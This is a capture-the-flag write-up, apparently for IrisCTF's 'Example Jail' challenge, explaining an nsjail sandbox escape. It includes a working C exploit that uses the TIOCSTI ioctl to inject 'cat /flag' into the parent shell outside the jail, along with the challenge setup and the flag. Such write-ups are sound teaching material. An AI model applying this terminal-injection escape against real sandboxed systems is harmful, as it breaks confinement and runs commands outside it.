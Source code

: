 # Example Jail (misc)
The challenge is a nsjail escape on the default configuration used in the bash example. The server will run a given binary simulating an actual tty shell.

```dockerfile
RUN cd nsjail && make && mv ./nsjail /bin && mv configs/bash-with-fake-geteuid.cfg /nsjail.cfg && cd .. && rm -rf nsjail
RUN sed -i 's/"\/bin\/bash"/"\/solve"/' /nsjail.cfg
RUN echo "\nmount {\n\tsrc: \"/tmp/solve\"\n\tdst: \"/solve\"\n\tis_bind: true\n}\n" | tee -a /nsjail.cfg
```
```py
p = subprocess.Popen(["socat", "-", "exec:\"bash -i\",pty,stderr,setsid,sigint,sane"], stdin=subprocess.PIPE, stdout=subprocess.PIPE) # spawns bash in a PTY
p.stdin.write(b"nsjail --config /nsjail.cfg &\n") # runs nsjail process in background of bash

time.sleep(5)

print(p.communicate(timeout=3)[0].decode()) # and prints the output

```
The solve binary is provided by the solver on connecting to the server.

The escape is due to the fact that the example has `setsid: false`. This means you can use the TIOCSTI ioctl to send characters to the parent shell outside of the nsjail! The setup in the challenge makes this exploitable by running the command with `&`. Though I think it's probably still possible even without that... :)

```c
#include <sys/ioctl.h>
#include <string.h>

int main() {
    const char* c = "cat /flag\n";
    for(unsigned int i = 0; i < strlen(c); i++) {
        ioctl(0, TIOCSTI, &c[i]); // writes char to PTY which is read by bash
    }
    return 0;
}

```

This challenge was pretty hard to set up. It's nsjail inside bash inside socat inside nsjail...

```
irisctf{ioctl_is_forever}
```
